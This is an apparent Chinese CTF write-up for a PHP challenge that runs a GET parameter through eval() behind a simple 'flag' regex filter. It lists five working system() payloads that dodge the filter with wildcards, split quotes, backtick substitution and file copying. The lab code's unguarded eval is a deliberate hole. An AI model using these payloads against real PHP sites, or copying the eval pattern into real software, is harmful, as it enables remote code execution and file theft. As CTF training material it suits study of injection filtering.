






```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:26:48
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

分析源码

get方式提交参数c

过滤/flag

eval命令执行

 

```
?c=system("ls");
```




## 第一种

利用*代替字符串过滤

```
?c=system("cat fl*g.php");
```




## 第二种

利用 ' '分割

```
?c=system("cat fl''ag.php");
```


## 第三种

使用反斜杠 ` 

```
?c=system("cat `ls`");
```




## 第四种

用？代替flag和php

```
?c=system(“cat ????.???”);
```




# 第五种

利用cp复制文件

```
?c=system("cp fla?.php 4.txt");
```



接着访问4.txt

